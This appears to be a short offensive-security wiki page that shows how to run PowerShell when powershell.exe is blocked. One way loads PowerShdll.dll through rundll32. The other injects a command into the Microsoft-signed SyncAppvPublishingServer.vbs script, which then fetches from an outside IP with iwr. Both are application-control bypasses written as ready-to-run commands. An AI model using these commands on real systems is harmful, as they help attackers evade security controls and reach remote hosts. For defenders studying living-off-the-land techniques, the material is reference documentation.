 # Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```
rundll32.exe PowerShdll.dll,main
```

![](../../.gitbook/assets/pwshll-rundll32.gif)

Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

![](../../.gitbook/assets/pwshll-syncappvpublishingserver.png)

![](../../.gitbook/assets/pwshll-syncappvpublishingserver.gif)

## References

{% embed url="https://github.com/p3nt4/PowerShdll" %}

{% embed url="https://safe-cyberdefense.com/malware-can-use-powershell-without-powershell-exe/" %}

{% embed url="https://www.youtube.com/watch?v=7tvfb9poTKg" %}
